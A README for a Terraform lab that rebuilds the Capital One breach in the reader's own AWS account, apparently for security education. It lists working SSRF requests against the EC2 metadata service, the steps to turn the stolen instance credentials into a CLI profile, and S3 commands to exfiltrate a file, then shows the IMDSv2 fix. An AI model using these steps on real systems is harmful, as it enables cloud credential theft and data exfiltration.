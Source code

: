 # Capital One Breach - IaC
<i> We will use terraform `Infrastructure as a Code` tool to create the setup.  
The terraform file attached will help to create the required resources, AWS services and connectivity to reproduce the breach.
it is possible to `destroy` the stack when done and the created resources will be deleted</i>  

## Prerequisites  
- Modify or change inputs in the [main.tf](../main.tf) file with the relevant region, key_pairs, instance_profile
- Validate the `main.tf` file and check that the `terraform fmt, validate, plan` command has no errors.
- The script will create a new S3 bucket named `c-one-demo` and upload a "secret" file

## Demo Instruction

1. copy the `main.tf` file to your local dir and run: 
   ```ShellSession
      $ terraform init 
      $ terraform fmt 
      $ terraform validate 
      $ terrafrom plan
   ```

2. If there are no errors, you can proceed to `terraform apply`   
   check that the resources successfully created.
   You should get the following outputs:  
   ```ShellSession
   bucket_name = "c-one-demo"
   instance_id = "i-<instance_ID_number>"
   public_ip = "<public_ipv4>"
   ```  

3. At this point it is possible to run the HTTP request to pull out the metadata information:
   First check that the server respond to curl:
   ```ShellSession 
   $ curl http://<public_ipv4_address>/ 
   ```
4. Explore metadata vulnerability  
   Check for some of the metadata categories available:
   ```ShellSession
   $ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/
   ```
   The output should include all categories of information that the ec2 instance would be able to access.

5. Extract AWS credentials  
   By navigating through the API structure, we can eventually get to credentials. Paste each url into your browser to work through the API directory structure.  
   {Instance-Profile} - The instance profile name will be unique to each environment.  
   This will be the value listed under security-credentials - 2nd url below

    ```ShellSession
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{Instance-Profile}
    ```  

    ![](ssrf_1.png)  

6. Extract the VM AWS credentials  
   These are the credentials of the instance profile that is being used by the ec2 instance. By making a profile using these credentials, we will be able to execute AWS API calls using the identity of the ec2 instance instance profile.  
   Copy the value of `AccessKeyId`, `SecretAccessKey` and `Token`, and use it to configure a profile called c-demo.
   ```ShellSession
   $ aws configure --profile c-demo
   ```  
   Add the `Token` by adding `aws_session_token` to your aws credential. By default, credential files are stored in the following places:  
   `Windows: C:\Users\username\.aws\credentials`
   `Linux: ~/.aws/credentials`
   
   Variables Required:  

   `aws_access_key_id = {AccessKeyId}`          - The Access key as found in the browser window.
   `aws_secret_access_key = {SecretAccessKey}`  - The Secret Access key, as shown in the browser
   `aws_session_token = {Token}`                - The Token value, as shown in the browser. 

  
7. Let's get it done!  
   At this point, you should be able to query caller identity API from your workstation.
   List the available s3 buckets:
   ```ShellSession
   $ aws s3 ls --profile c-demo
   ```  

   Run the below command, substituting {bucket_name} for the name of the ec2-metadata bucket returned in the previous step.
   ```ShellSession
   $ aws s3 ls {bucket_name} --profile c-demo
   ```  
   There's another object in here, our `top_secret_file`  
   As an attacker, we might want to download this file. This process is called data exfiltration.

8. Exfiltrate the data!  
   Let's download the file locally and examine the contents
   ```ShellSession
   $ aws s3 cp s3://{bucket_name}/top_secret_file ./ --profile c-demo
   ```
   
   Congratulations, you have just achieved your malicious objective!

## Mitigate the breach

Run a CLI command to force the ec2 instance to require a http token when issuing a command, by using IMDS v2.
You can use the ec2 `instance-id` provided by the terraform output.
```ShellSession
$ aws ec2 modify-instance-metadata-options --instance-id "{INSTANCE_ID}" --http-tokens required --http-endpoint enabled 
```
The ec2 is still running, meaning that the response will return the State as Pending.
Run the same exploits against the web server:
```ShellSession
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{name-of-your-instance-profile}
```  
At this point, webserver should not return any data for given urls, given the instance metadata service is blocking any request without the token.

9. Clean up.  
  Remove the created resource, ec2 and the S3 bucket:
  ```ShellSession
  $ terraform destroy
  ```

## References:
1. https://blog.lightspin.io/tag/cloud-security
2. https://blog.appsecco.com/server-side-request-forgery-ssrf-and-aws-ec2-instances-after-instance-meta-data-service-version-38fc1ba1a28a
3. https://blog.gruntwork.io/how-to-create-reusable-infrastructure-with-terraform-modules-25526d65f73d
4. https://www.youtube.com/watch?v=tPQsI8n6er0

